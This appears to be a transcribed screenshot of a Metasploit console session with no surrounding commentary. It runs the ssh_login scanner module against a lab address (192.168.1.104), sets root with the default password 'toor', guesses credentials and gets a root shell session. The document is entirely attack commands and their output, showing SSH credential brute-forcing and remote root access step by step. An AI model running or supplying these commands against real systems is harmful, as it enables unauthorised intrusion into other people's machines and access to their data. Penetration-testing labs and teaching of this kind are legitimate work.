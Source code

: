 ```
msf exploit(sshexec) > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf auxiliary(ssh_login) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login) > set PASS
set PASSWORD   set PASS_FILE  
msf auxiliary(ssh_login) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(ssh_login) > exploit 

[*] 192.168.1.104:22 SSH - Starting bruteforce
[*] 192.168.1.104:22 SSH - [1/3] - Trying: username: 'root' with password: ''
[-] 192.168.1.104:22 SSH - [1/3] - Failed: 'root':''
[*] 192.168.1.104:22 SSH - [2/3] - Trying: username: 'root' with password: 'root'
[-] 192.168.1.104:22 SSH - [2/3] - Failed: 'root':'root'
[*] 192.168.1.104:22 SSH - [3/3] - Trying: username: 'root' with password: 'toor'
[*] Command shell session 4 opened (192.168.1.105:54562 -> 192.168.1.104:22) at 2014-08-07 22:55:54 +0800
[+] 192.168.1.104:22 SSH - [3/3] - Success: 'root':'toor' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=system_u:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-164.el5 #1 SMP Thu Sep 3 03:33:56 EDT 2009 i686 i686 i386 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions 

Active sessions
===============

  Id  Type         Information                       Connection
  --  ----         -----------                       ----------
  4   shell linux  SSH root:toor (192.168.1.104:22)  192.168.1.105:54562 -> 192.168.1.104:22 (192.168.1.104)

msf auxiliary(ssh_login) > 
```